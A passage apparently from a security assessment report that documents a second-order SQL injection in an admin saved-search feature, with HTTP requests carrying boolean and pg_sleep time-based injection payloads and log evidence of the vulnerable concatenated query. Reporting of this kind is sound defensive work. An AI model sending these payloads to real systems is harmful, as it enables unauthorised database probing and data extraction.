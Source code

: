 
### 4.2 Trigger sink (admin opens saved search)
```http
GET /admin/catalog/search/use?title=ops-daily HTTP/1.1
```
**Expected behavior:** If injectable, result set widens/narrows depending on predicate.

### 4.3 Confirm boolean flip
Update the saved term to a **false** predicate and re‑trigger.
```http
POST /admin/catalog/search HTTP/1.1
Content-Type: application/json

{
  "name": "q9xZ2025' AND 1=2 -- -",
  "sort": "name",
  "dir": "asc",
  "save": true,
  "title": "ops-daily"
}
```
**Signal:** Response length shrinks consistently vs `1=1`.

### 4.4 Time‑based confirmation (3s blip)
```http
POST /admin/catalog/search HTTP/1.1
Content-Type: application/json

{
  "name": "q9xZ2025' AND CASE WHEN current_database()='appdb' THEN pg_sleep(3) ELSE pg_sleep(0) END -- -",
  "sort": "name",
  "dir": "asc",
  "save": true,
  "title": "ops-daily"
}
```
**Signal:** Median TTFB increases by ~3s on the saved search execution.

> **Note:** We kept delays to 2–3 seconds and ≤3 trials to minimize operational impact.

---

## 5) Evidence
- **HTTP diffs**
  - `1=1` vs `1=2` → body length: `~45kB` vs `~12kB` (median of 3).
  - Time probe → baseline ~180ms; TRUE branch median ~3.2s.
- **App logs**
  - Error once (during scoping): `syntax error at or near "AND"` pointing to concatenated query segment (line numbers redacted).
- **DB logs** (sample)
  - `statement: SELECT ... WHERE name ILIKE '%q9xZ2025' AND 1=1 -- -%' ORDER BY name ASC` (redacted with parameterization enabled later).

---